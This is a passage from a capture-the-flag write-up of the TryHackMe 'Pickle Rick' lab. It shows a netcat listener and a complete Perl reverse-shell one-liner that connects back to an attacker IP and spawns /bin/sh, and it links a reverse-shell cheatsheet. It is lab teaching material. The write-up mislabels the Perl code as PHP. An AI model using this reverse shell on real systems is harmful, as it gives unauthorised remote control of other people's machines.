 Well no credentials were found but we where able to see the list of commands that are getting blocked by the webserver.

### Approach 1 : Using Reverse Shell

The next logic process that we can try is to setup an reverse shell. So that we can access the other directories that are present on the server. For all the different types of reverse shells that can be setup checkout the amazing resource provided by "PayloadAllThings"

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Lets setup a listener on our system using netcat (The Reverse Shell with connect to this listner on our system)

```
> netcat -nvlp 1234  
listening on [any] 1234 ...
```

From the above resource I used the PHP reverse shell code to get an connection

_(The bash and the netcat reverse shells scripts have also been found to work on this box as well)_

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Note:** The IP in the above code needs to be changed with the TryHackMe VPN IP Address which can be found using "ip a show tun0" under inet

![Netcat Listener|420](images/thm-pickle-rick/netcat-listener.png)

We have successfully setup a reverse shell. Lets look at the "clue.txt" file to see if we get an information as to where the other two ingredients might be hidden on the system.

```
$ cat clue.txt  
Look around the file system for the other ingredient.
```
